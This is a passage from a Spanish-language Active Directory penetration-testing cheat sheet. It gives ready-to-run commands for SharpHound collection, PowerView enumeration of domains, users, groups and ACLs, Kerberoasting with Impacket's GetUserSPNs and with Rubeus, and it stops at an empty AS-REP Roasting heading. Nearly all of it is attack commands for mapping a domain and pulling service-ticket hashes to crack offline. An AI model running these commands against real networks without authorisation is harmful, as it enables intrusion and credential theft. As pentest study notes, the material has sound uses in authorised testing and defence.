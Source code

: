 2. **Ejecutar SharpHound en el objetivo**
    - Descargar [SharpHound](https://github.com/BloodHoundAD/BloodHound)
    - Ejecutar `SharpHound.exe` o `SharpHound.ps1` en la máquina objetivo:
        
        ```powershell
        .\SharpHound.exe -c All
        ```
        
    - Subir los archivos de salida a BloodHound para análisis.

**PowerView (PowerSploit)**

```powershell
# Importar PowerView
Import-Module .\PowerView.ps1

# Enumerar dominios
Get-NetDomain

# Enumerar controladores de dominio
Get-NetDomainController

# Enumerar usuarios
Get-NetUser

# Enumerar grupos
Get-NetGroup

# Enumerar miembros de grupos específicos
Get-NetGroupMember -GroupName "Administrators"

# Enumerar equipos
Get-NetComputer

# Enumerar ACLs en un objeto específico
Get-ObjectAcl -SamAccountName usuario -ResolveGUIDs
```

### Kerberoasting

**Impacket (GetUserSPNs)**

```bash
# Enumerar y solicitar TGS (Ticket Granting Service) para cuentas de servicio
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip 1.1.1.1 dominio/usuario:password
```

**Rubeus**

```powershell
# Ejecutar Rubeus para realizar Kerberoasting
Rubeus.exe kerberoast
```

### AS-REP Roasting
